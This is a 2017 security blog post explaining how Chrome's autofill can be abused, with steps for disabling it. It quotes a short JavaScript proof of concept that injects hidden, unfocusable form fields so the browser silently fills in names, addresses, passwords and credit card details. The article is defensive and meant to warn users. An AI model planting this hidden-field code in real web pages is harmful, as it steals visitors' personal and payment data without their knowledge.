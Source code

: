 ```yaml
---
author: Quincy Larson
authorTwitter: https://twitter.com/ossia
authorFacebook: https://facebook.com/10100956570023241
title: "Why Chrome’s autocomplete is insecure and how you can turn it off"
subTitle: "Chrome has yet to fix a well-known vulnerability first publicized way back in 2013...."
coverSrc: https://cdn-images-1.medium.com/max/2000/1*zlm2cNYCamoyiXgzF9yNVg.jpeg
url: https://medium.freecodecamp.org/why-your-browsers-autocomplete-is-insecure-and-you-should-turn-it-off-ebc73d7bcefd
id: why-your-browsers-autocomplete-is-insecure-and-you-should-turn-it-off-ebc73d7bcefd
date: 2017-01-12T17:43:10.391Z
tags: [
  "JavaScript",
  "Web Development",
  "Security",
  "Tech",
  "Life Lessons"
]
---
```

# Why Chrome’s autocomplete is insecure and how you can turn it off







![](https://cdn-images-1.medium.com/max/2000/1*zlm2cNYCamoyiXgzF9yNVg.jpeg)







Chrome has yet to fix a well-known vulnerability [first publicized way back in 2013](https://yoast.com/autocomplete-security/).

Basically, a hacker can hide form input fields on a web page, which Chrome will then fill in with your personal information if you opt to use its autocomplete feature.

Here’s what this looks like:



![](https://cdn-images-1.medium.com/max/1600/1*WChv_tXK8rqUASVNxrqNSw.gif)

gif by [anttiviljami](https://github.com/anttiviljami/browser-autofill-phishing/blob/master/readme.md)



GitHub user [haampie](https://gist.githubusercontent.com/haampie/3ba6ebb5fd9f71d2f8e9fb841e52740d/raw/d2278671539ab5987a184603b0b3dd9942ba66e0/inject.js) demonstrated this with the following JavaScript script:

<pre name="b2c7" id="b2c7" class="graf graf--pre graf-after--p">var autocompletes = ['name', 'honorific-prefix', 'given-name',  
  'additional-name', 'family-name', 'honorific-suffix',  
  'nickname', 'username', 'new-password',  
  'current-password', 'organization-title', 'organization',  
  'street-address', 'address-line1', 'address-line2',  
  'address-line3', 'address-level4', 'address-level3',  
  'address-level2', 'address-level1', 'country',  
  'country-name', 'postal-code', 'cc-name', 'cc-given-name',  
  'cc-additional-name', 'cc-family-name', 'cc-exp',  
  'cc-exp-month', 'cc-exp-year', 'cc-csc', 'cc-type',  
  'transaction-currency', 'transaction-amount',  
  'language', 'bday', 'bday-day', 'bday-month',  
  'bday-year', 'sex', 'url', 'photo', 'tel',  
  'tel-country-code', 'tel-national',  
  'tel-area-code', 'tel-local', 'tel-local-prefix',  
  'tel-local-suffix', 'tel-extension', 'impp'  
];  

emailField.addEventListener('focus', function() {  
  var wrap = autocompletes.reduce(function(wrapper, field) {  
    var input = document.createElement('input');  

    // Make them not focussable  
    input.tabIndex = -1;  
    input.autocomplete = field;  

    wrapper.appendChild(input);  
    return wrapper;  
  }, document.createElement('div'));  

  // Hide the wrapper  
  wrap.classList.add('hidden');  
  form.appendChild(wrap);  

  // Inject the autocompletes once  
  this.removeEventListener('focus', arguments.callee);  
});</pre>

I recommend you turn off Chrome’s autocomplete feature immediately.

### The fastest way to turn off autocomplete in Chrome

1.  Paste this into Chrome’s address bar: `chrome://settings/autofill`
2.  Press escape to exit the “manage autofill settings” modal
3.  Uncheck the autofill checkbox



![](https://cdn-images-1.medium.com/max/1600/1*NKyNK5fQWXeLHLCOD_ZDaA.png)



Now you’re good to go. You may have to type a bit more, but you can have the peace of mind that hackers won’t be able to steal your personal data using this well-known exploit.








